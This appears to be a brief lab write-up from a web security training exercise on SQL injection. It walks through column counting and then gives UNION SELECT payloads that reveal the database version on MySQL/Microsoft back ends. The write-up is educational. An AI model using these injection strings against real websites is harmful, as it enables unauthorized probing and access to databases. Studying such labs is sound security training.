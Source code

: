 ```markdown
Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
```

## Step 1

Check number of column

<img src="Images/ps1.png" width="350" height="200">

## Step 2

Check in which column we can insert

<img src="Images/ps2.png" width="350" height="200">

Here we are able to insert in both column

<img src="Images/ps3.png" width="350" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="Images/ps4.png" width="350" height="200">

And we have the answer

<img src="Images/ps5.png" width="350" height="200">

---
